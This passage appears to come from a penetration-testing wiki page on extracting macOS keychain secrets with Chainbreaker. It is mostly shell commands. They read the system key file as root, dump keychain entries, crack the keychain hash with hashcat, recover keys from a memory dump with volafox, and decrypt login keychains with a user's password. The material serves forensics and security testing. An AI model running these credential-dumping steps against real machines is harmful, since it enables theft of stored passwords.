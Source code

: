 Without one of these methods of unlocking the Keychain, Chainbreaker will display all other available information.

#### **Dump keychain keys**

```bash
#Dump all keys of the keychain (without the passwords)
python2.7 chainbreaker.py --dump-all /Library/Keychains/System.keychain
```

#### **Dump keychain keys (with passwords) with SystemKey**

```bash
# First, get the keychain decryption key
# To get this decryption key you need to be root and SIP must be disabled
hexdump -s 8 -n 24 -e '1/1 "%.2x"' /var/db/SystemKey && echo
## Use the previous key to decrypt the passwords
python2.7 chainbreaker.py --dump-all --key 0293847570022761234562947e0bcd5bc04d196ad2345697 /Library/Keychains/System.keychain
```

#### **Dump keychain keys (with passwords) cracking the hash**

```bash
# Get the keychain hash
python2.7 chainbreaker.py --dump-keychain-password-hash /Library/Keychains/System.keychain
# Crack it with hashcat
hashcat.exe -m 23100 --keep-guessing hashes.txt dictionary.txt
# Use the key to decrypt the passwords
python2.7 chainbreaker.py --dump-all --key 0293847570022761234562947e0bcd5bc04d196ad2345697 /Library/Keychains/System.keychain
```

#### **Dump keychain keys (with passwords) with memory dump**

[Follow these steps](../#dumping-memory-with-osxpmem) to perform a **memory dump**

```bash
#Use volafox (https://github.com/n0fate/volafox) to extract possible keychain passwords
# Unformtunately volafox isn't working with the latest versions of MacOS
python vol.py -i ~/Desktop/show/macosxml.mem -o keychaindump

#Try to extract the passwords using the extracted keychain passwords
python2.7 chainbreaker.py --dump-all --key 0293847570022761234562947e0bcd5bc04d196ad2345697 /Library/Keychains/System.keychain
```

#### **Dump keychain keys (with passwords) using users password**

If you know the users password you can use it to **dump and decrypt keychains that belong to the user**.

```bash
#Prompt to ask for the password
python2.7 chainbreaker.py --dump-all --password-prompt /Users/<username>/Library/Keychains/login.keychain-db
```
